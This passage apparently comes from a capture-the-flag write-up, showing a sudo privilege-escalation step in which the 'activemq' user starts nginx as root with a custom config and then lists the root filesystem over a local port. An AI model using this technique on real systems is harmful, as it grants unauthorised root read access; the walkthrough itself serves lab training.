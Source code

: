 Now I run this:

```
activemq@broker:/dev/shm$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf

```

And a new server is listening on 1338, returning a file listing for `/`:

```
activemq@broker:/dev/shm$ curl localhost:1338
<html>
<head><title>Index of /</title></head>
<body>
<h1>Index of /</h1><hr><pre><a href="../">../</a>
<a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
<a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
<a href="dev/">dev/</a>                                               08-Nov-2023 17:53                   -
<a href="etc/">etc/</a>                                               07-Nov-2023 06:53                   -
<a href="home/">home/</a>                                              06-Nov-2023 01:18                   -
<a href="lib/">lib/</a>                                               06-Nov-2023 00:57                   -
<a href="lib32/">lib32/</a>                                             17-Feb-2023 17:19                   -
<a href="lib64/">lib64/</a>                                             05-Nov-2023 02:36                   -
<a href="libx32/">libx32/</a>                                            17-Feb-2023 17:19                   -
<a href="lost%2Bfound/">lost+found/</a>                                        27-Apr-2023 15:40                   -
<a href="media/">media/</a>                                             06-Nov-2023 01:18                   -
<a href="mnt/">mnt/</a>                                               17-Feb-2023 17:19                   -
<a href="opt/">opt/</a>                                               06-Nov-2023 01:18                   -
<a href="proc/">proc/</a>                                              08-Nov-2023 17:53                   -
<a href="root/">root/</a>                                              07-Nov-2023 08:40                   -
<a href="run/">run/</a>                                               08-Nov-2023 19:24                   -
<a href="sbin/">sbin/</a>                                              06-Nov-2023 01:10                   -
<a href="srv/">srv/</a>                                               06-Nov-2023 01:18                   -
<a href="sys/">sys/</a>                                               08-Nov-2023 17:53                   -
<a href="tmp/">tmp/</a>                                               08-Nov-2023 20:00                   -
<a href="usr/">usr/</a>                                               17-Feb-2023 17:19                   -
<a href="var/">var/</a>                                               05-Nov-2023 01:43                   -
<a href="test.out">test.out</a>                                           08-Nov-2023 19:22                  14
</pre><hr></body>
</html>

```

